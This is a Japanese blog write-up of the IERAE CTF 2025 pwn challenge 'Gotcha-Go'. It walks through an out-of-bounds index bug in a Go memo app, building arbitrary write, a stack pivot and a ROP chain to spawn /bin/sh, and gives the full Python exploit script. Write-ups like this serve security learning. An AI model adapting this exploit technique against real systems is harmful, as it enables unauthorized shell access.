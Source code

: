 ```yaml
---
title: "[CTF] IERAE CTF 2025 writeup"
date: 2025-06-26T17:01:15+09:00
description: "IERAE CTF 2025に参加したのでwriteupを公開します."
keyword: "ctf,ierae,ierae ctf 2025,writeup"
author: "caphosra"
tags: ["CTF"]
draft: false
---
```


IERAE CTF 2025にTSGとして参加しました。

## pwn: Gotcha-Go (medium, 25 solves)

Go製のメモアプリに対して攻撃を行う問題。メモアプリには特定のIDのメモを作成する(init), 読み込む(info), 書き込む(edit)操作が実装されている。

脆弱性は明らかで、メモのIDに対してなんの制約も掛かっていないので配列外参照が可能になっている。あとは適当なアドレスを書き換えて終わりだと思っていたが、流石にGo製のアプリだけあって、メモリレイアウトやレジスタの使い方がC言語で同様のコードを書いてgccでコンパイルした時とはかなり違うものとなっていた。

`checksec`の結果は以下の通り。No PIE, No RELROなのでGOTを書き換えて終わりかと思いきや、C言語と同じようにGOTが存在するわけではないため不可能。
```
$ checksec --file=./ctf
[*] '/ctf/2025/ierae/gotcha-go/ctf'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
```

問題をより詳しく見る。`info`と`edit`を使えば任意の`idx`について以下で定義されるような`l`に対し、`l.list[idx].data`に対して読み書きが可能である。
```go
type Data interface {
	info(int)
	init(*MyStr)
	edit(int)
}

var l Data = &MyList{}

type MyStr struct {
	idx  int
	data [0x30]byte
}

type MyList struct {
	list [16]*MyStr
}
```

`l`はグローバル領域に存在し、毎回固定のアドレスに配置されいること、配列の構造とGhidraでの逆アセンブル結果から、これは要するに任意の`idx`に対して`*(0x56bfc0 + idx * 8) + 0x8`のアドレスに対して読み書きができることを意味している。

また、メモリ上を観察すると、`0x56cde0`のアドレスの指す先の8だけ先の領域には`0x56c188`が毎回格納されていることがわかる。これにより、`idx = (0x56cde0 - 0x56bfc0) // 8`とすれば、`0x56c188`に対して任意の値を書き込むことができる。あとは、`0x56c188`に観察したいアドレスから8引いた値を書き込んでから、`idx = (0x56c188 - 0x56bfc0) // 8`として`l.list[idx].data`に書き込んだり読み出したりすることで、AAW, AARが可能となる。

あとはAAWでどこに何を書き込むかである。

最初は、`0xc000000000`以降の適当なアドレスに配置されているGoのstackを適当にoverwriteしてROPすることを考えたが、stackのアドレスは実行ごとに変わり、かつstackへのポインタが格納されているグローバル変数が見当たらなかったことから断念した。

適当にGhidraとgdbをポチポチしていると、`l.edit(idx)`への関数ポインタが固定のアドレス`0x5669c0`にあり、それを使って呼び出していることがわかった。AAWもあるので、あとはstack pivotingしてから`0xc000000000`以降に広がる広大な`rw`可能な領域を使ってROPをすれば良い。

```python
#!/usr/bin/python3

import sys
from ptrlib import *
import time

REMOTE = ("localhost", 33337)

EXEC = "./ctf"

if len(sys.argv) == 1:
    sock = Process(EXEC)
    IS_REMOTE = False
else:
    assert sys.argv[1] == "remote"
    host, port = REMOTE
    sock = Socket(host, port)
    IS_REMOTE = True

elf = ELF(EXEC)

# 0x000000000056bfc0 + idx * 8

input("[;] Waiting...")

base_addr = 0x56bfc0

ptr_to_global = 0x56cde0
global_addr = 0x56c188

def write_addr(target_addr, value):
    sock.sendlineafter(":\n", "3")
    sock.sendlineafter(":\n", str((ptr_to_global - base_addr) // 8))
    sock.sendline(p64(target_addr - 0x8))

    sock.sendlineafter(":\n", "3")
    sock.sendlineafter(":\n", str((global_addr - base_addr) // 8))
    sock.send(value)

forged_stack_addr = 0xc000010000

payload = b"/bin/sh\x00\n"
write_addr(forged_stack_addr, payload)

payload = b""
payload += p64(0xdeadbeef) # dummy
payload += p64(0x473fc6) # pop rdi; ret
payload += p64(forged_stack_addr)
payload += p64(0x43fec1) # pop rbx; ret
payload += p64(forged_stack_addr + 0x200)
payload += p64(0x46008a) # pop rsi; shl edx, 0xf; adc [rbx+8], eax; ret
write_addr(forged_stack_addr + 0x30, payload)

payload = b""
payload += p64(0)
payload += p64(0x499f93) # pop rax; pop rbp; ret
payload += p64(forged_stack_addr + 0x201)
payload += p64(0xdeadbeef)
payload += p64(0x499f20) # pop rdx; sbb [rax-1], cl; ret
payload += p64(0)
write_addr(forged_stack_addr + 0x60, payload)

payload = b""
payload += p64(0x499f93) # pop rax; pop rbp; ret
payload += p64(59)
payload += p64(0xdeadbeef)
payload += p64(0x48bf14) # syscall
write_addr(forged_stack_addr + 0x90, payload)

forged_stack_addr2 = 0xc000018000
payload = b""
payload += b"A" * 0x18
payload += p64(0x0046d860) # mov rsp, rbx; pop rbp; ret
write_addr(forged_stack_addr2, payload)

write_addr(0x5669c0, p64(forged_stack_addr2))

sock.sendlineafter(":\n", "3")
sock.sendlineafter(":\n", forged_stack_addr + 0x30)

sock.interactive()
```

`l.edit(idx)`呼び出し時の`idx`が`rbx`に格納されることを使って、そこを起点に`execve("/bin/sh", NULL, NULL)`を用意している。静的リンクされているのでガジェットは豊富である。結局AARは使わなかった。

## おわりに

解いたのは以上1問だけです。

楽しいCTFありがとうございます。力つけて出直してきます。
